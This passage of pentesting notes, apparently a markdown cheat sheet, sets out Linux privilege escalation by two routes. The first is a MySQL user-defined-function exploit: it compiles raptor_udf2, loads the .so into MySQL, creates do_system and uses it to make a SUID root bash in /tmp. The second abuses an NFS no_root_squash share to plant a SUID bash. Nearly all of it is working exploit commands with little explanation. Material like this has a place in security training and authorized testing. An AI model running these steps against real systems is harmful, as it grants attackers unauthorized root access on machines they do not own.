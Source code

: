 - enumerate FILE permission, version and plugin_dir

```
# look privileges 
SHOW Grants;

# look at variables including hostname, plugin_dir, tmpdir, version, version_compile_machine 
show variables;
show variables where (Variable_name="hostname" or Variable_name="plugin_dir" or Variable_name="version" or Variable_name="tmpdir" or Variable_name="version_compile_machine");
```

Exploit : https://www.exploit-db.com/exploits/1518

- Compile

```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

- Connect to mysql and create a User Defined Function (UDF) "do_system" :
    - In MySQL versions prior to 4.1.25 / 5.0.67, the .so file must be in a directory that is searched by your system’s dynamic linker.  
    - Otherwise the .so file must be located in the plugin directory. If no plugin_dir, the previous behavior apply.

```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
select * from foo into dumpfile '/lib/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';

select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');

exit

/tmp/rootbash -p
```

#### NFS root squashing

- Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe

```
# On victim machine, notice /shared share has root squasing disabled 
cat /etc/exports

# On attacking machine
# remote check the name of the folder
showmount -e $IP

# create dir
mkdir /tmp/nfsdir  

# mount directory 
mount -t nfs $IP:/shared /tmp/nfsdir [OR] mount -o rw,vers=2 $IP:/shared /tmp/nfsdir
cd /tmp/nfsdir

# copy wanted shell 
cp /bin/bash . 	

# set suid permission on it
chmod +s bash 

```